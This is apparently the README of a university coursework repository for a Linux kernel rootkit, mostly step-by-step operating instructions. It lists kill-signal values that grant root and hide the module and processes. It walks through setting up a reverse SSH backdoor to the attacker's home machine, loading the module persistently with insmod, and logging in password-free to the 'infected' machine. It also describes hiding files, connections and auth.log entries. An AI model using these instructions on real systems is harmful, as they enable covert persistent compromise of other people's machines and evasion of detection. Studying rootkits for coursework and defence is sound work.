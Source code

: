 # S3CW
Repository for Systems and Software Security unit coursework. Included report details the implementation of our linux kernel rootkit, as well as some evaluation and improvements. Mark achieved for this unit: 

## Interacting with the Rootkit

Some commands are accessible by using the system call `kill(pid_t pid, int, sig)`. Running this call with the following `sig` values will use our overridden method:

| `sig` value | Result                                  |
| ----------- | --------------------------------------- |
| 32          | Gain root access                        |
| 33          | Hide the rootkit module from the list   |
| 34          | Unhide the rootkit module from the list |
| 35          | Hide any programs with a PID of `pid`   |



## Building Instructions

### <u>Backdoor Configuration Instructions</u>
Some set up is needed on the computer you wish to use to access the comprimised machine remotely, and without the need for their password. It is highly recomended that you use a Linux based machine to access the comprimised computer, as our method is not verified on Windows or MacOS.

***Turn on SSH port forwarding***

For own computer connecting to rootkit back door:
1. Go to your router settings via a browser (address is typically 192.168.0.1, but your router should show somewhere how to get to the router configuration page).
2. Find your local ip address by using `ifconfig` then comparing the **inet** addresses until you find one that appears on your router settings site.
3. Using `ifconfig`, find your **subnet mask**, and **Default gateway** corresponding to the ip address you just found. Default gateway is typically your ip address with the last section being 1 (i.e. x.x.x.1, where 0 <= x <= 255)
3. We need to ensure our own pc has a static IP on the network to make sure port forwarding always works, and the ssh backdoor tunnel can always be made:

***Linux***
1. Go to **Settings**->**Network**
2. Click on the cog next to the network device that you use to connect to your router (Ethernet or Wifi)
3. Go to the **IPv4** tab, and in **IPv4 Method** select **Manual**. This will give us a static IP
4. Type in the **ip address**, **subnet mask** and **gateway** you found earlier. In the **DNS** field, we can use the Google Public DNS which has address `8.8.8.8`
5. Click **apply**

***Now we have a static IP set, we need to add port forwarding rule***
1. Goto your routers settings
2. Add a port forwarding rule (usually in security or firewall) for port 22 and your local static ip address


### <u>Configuration before installing rootkit</u>
1. You need to generate an ssh rsa keypair. To do this run `ssh-keygen` and hit the *enter* key every time you are prompted for input. If you already have `~/.ssh/id_rsa` and `~/.ssh/id_rsa.pub`, make sure that your user has read write access (can check this through `ls -l ~/.ssh`). If your user doesn't have access (i.e. it says `root` instead), then remove these current keys (may need to do `sudo rm...`) and then run `ssh-keygen` **without `sudo`**.
2. Make sure python is installed, and run `python backdoor_config.py` to set up file with your username, public ssh rsa key, and public ip address. This will be used by the rootkit to set up an ssh backdoor so you can connect to the infected machine. 
3. Move the `backdoor_config.txt` file into the `virus` folder.
4. ONLY MOVE THE **rootkit** FOLDER TO THE MACHINE YOU WANT TO INFECT


### <u>Booting Vagrant</u>
In order to showcase our rootkit, we will be using a Vagrant VM running Ubuntu 12.04. However, any Linux machine (VM or on *bare metal*) with an internet connection and running Ubunutu 12.04 will work. If you use a VM make sure in its network settings the adapter is of type **bridged adapter**.
1. `vagrant up` in folder containing vagrant file
2. If asked which adapter to bridge too when booting vagrant, select the adapter you use to connect to the internet (can find this out using `ifconfig` and seing which one has your static ip address).
3. Move rootkit folder to 'guest' folder (in same directory as vagrant file is in)
4. `vagrant ssh` 

### <u>Setting up rootkit with loading on boot</u>
The rootkit will make itself boot by editing `/modules/etc`, but you need to follow these steps first:
1. ``` sudo apt-get install linux-headers-`uname -r` ```
2. `sudo mkdir /lib/modules/3.2.0-126-generic/kernel/drivers/rootkit`
3. `sudo cp /vagrant/* /lib/modules/3.2.0-126-generic/kernel/drivers/rootkit -r`
4. `cd /lib/modules/3.2.0-126-generic/kernel/drivers/rootkit`
5. `sudo make all`
6. `sudo depmod` which resets relevant systems to allow our module to be loaded on boot
7. `sudo insmod rootkit.ko`
8. To establish backdoor, go to `cd virus` and then run `./backdoor`. You will need to enter your home computer's password for ssh key exchange
Warning: there is no way to remove the rootkit after this - if you want to recompile then either use signals to disable some functionality or reset your box.

### <u>Using backdoor</u>
1. Whilst you have access to the system you are infecting, run the command `whoami` and make a note of the result that is produced. We will need this to ssh into the system
2. We have set up a reverse ssh tunnel, meaning that whenever our router sees we are sending a request to `localhost` on port `7000` it will divert this to port `22` of our infected system
3. To access the infected system, simply type the command `ssh targetUser@localhost -p 7000 -i ~/.ssh/id_rsa` and you will have access to their system without the need for their password

### <u>Showing Rootkit features</u>
1. To see that our rootkit is not in modules list, run `sudo lsmod` and inspect the list
2. To see that our rootkit and virus files are hidden, go to `cd /lib/modules/3.2.0-126-generic/kernel/drivers/`. Running `ls`, `l`, `dir` will yield that `rootkit/` cannot be seen, as well as with `ls rootkit` etc. once you have `cd rootkit` the same can be seen for `virus` file with out payload.
3. To see that backdoor connections are hidden, we can run any networking command: `netstat`, `who`, `last`, `w`, `ss` and our ip address or any ssh connections will be hidden
4. opening the `/var/log/auth.log` file will not show evidence of our ssh connection once the rootkit has been loaded
5. To demonstrate root access, our payload program calls the hooked `kill` syscall when making a bash script. Running `./payload` or `./payload root` will give us a root terminal. This can be confirmed by running `whoami` 
6. In order to demonstrate program hiding we have to options. First by running our `./payload` script in our `/rootkit/virus/` folder wil give us a bash terminal. Whilst running `ps` or `top` will show our payload process, if we ssh in again to the compromised VM and run `ps` or `top` from this terminal, we see that it is infact hidden. Second, we can find a process ID using `ps` or `top`, and then execute `./payload hidepid $PID` and this will hide any process.
